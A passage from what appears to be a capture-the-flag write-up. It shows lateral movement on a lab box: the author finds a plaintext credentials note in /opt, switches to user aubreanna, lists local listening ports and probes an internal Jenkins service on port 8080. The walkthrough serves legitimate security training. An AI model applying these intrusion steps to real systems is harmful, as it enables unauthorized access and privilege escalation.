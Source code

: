 ### Manual enumeration
As I was manually looking through, I found a file **wp-save.txt** with login credentials for aubreanna on /opt.
```console
www-data@internal:/opt$ ls
containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:<ssh-redacted-creds>
```
## Shell as aubreanna

```console
www-data@internal:/opt$ su aubreanna
Password: 
aubreanna@internal:/opt$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```
aubreanna is a memeber of group **adm** which means we have can read few extra log files.


## Checking Open ports on the box
```console
aubreanna@internal:/opt$ ss -ltn
State                 Recv-Q                  Send-Q                                    Local Address:Port                                    Peer Address:Port                 
LISTEN                0                       128                                       127.0.0.53%lo:53                                           0.0.0.0:*                    
LISTEN                0                       128                                             0.0.0.0:22                                           0.0.0.0:*                    
LISTEN                0                       128                                           127.0.0.1:41501                                        0.0.0.0:*                    
LISTEN                0                       80                                            127.0.0.1:3306                                         0.0.0.0:*                    
LISTEN                0                       128                                           127.0.0.1:8080                                         0.0.0.0:*                    
LISTEN                0                       128                                                [::]:22                                              [::]:*                    
LISTEN                0                       128                                                   *:80                                                 *:*                    
aubreanna@internal:/opt$ 
```
There are few ports that are listening on the local interface which were not visible on our nmap scan.
### Checking the service on Port 8080
```console
aubreanna@internal:/opt$ curl localhost:8080
<html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script>window.location.replace('/login?from=%2F');</script></head><body style='background-color:white; color:white;'>


Authentication required
<!--
You are authenticated as: anonymous
Groups that you are in:
  
Permission you need to have (but didn't): hudson.model.Hudson.Read
 ... which is implied by: hudson.security.Permission.GenericRead
 ... which is implied by: hudson.model.Hudson.Administer
```